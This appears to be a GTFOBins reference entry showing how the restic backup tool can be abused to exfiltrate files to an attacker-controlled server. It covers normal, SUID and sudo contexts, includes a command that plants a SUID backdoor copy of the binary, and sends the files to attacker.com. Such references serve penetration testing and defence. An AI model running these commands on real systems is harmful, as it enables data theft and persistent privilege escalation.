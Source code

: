 # GTFOBin: restic

The attacker must setup a server to receive the backups, in the following example rest-server is used but there are other options. To start a new instance and create a new repository:

```
RPORT=12345
NAME=backup_name
./rest-server --listen ":$RPORT"
restic init -r "rest:http://localhost:$RPORT/$NAME"

```

To extract the data from the restic repository in the current directory on the attacker side:

```
restic restore -r "/tmp/restic/$NAME" latest --target .

```

Upload data to the attacker server with the following commands.

## File upload

It can exfiltrate files on the network.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_or_dir_to_get
NAME=backup_name
restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which restic) .

RHOST=attacker.com
RPORT=12345
LFILE=file_or_dir_to_get
NAME=backup_name
./restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
RHOST=attacker.com
RPORT=12345
LFILE=file_or_dir_to_get
NAME=backup_name
sudo restic backup -r "rest:http://$RHOST:$RPORT/$NAME" "$LFILE"
```
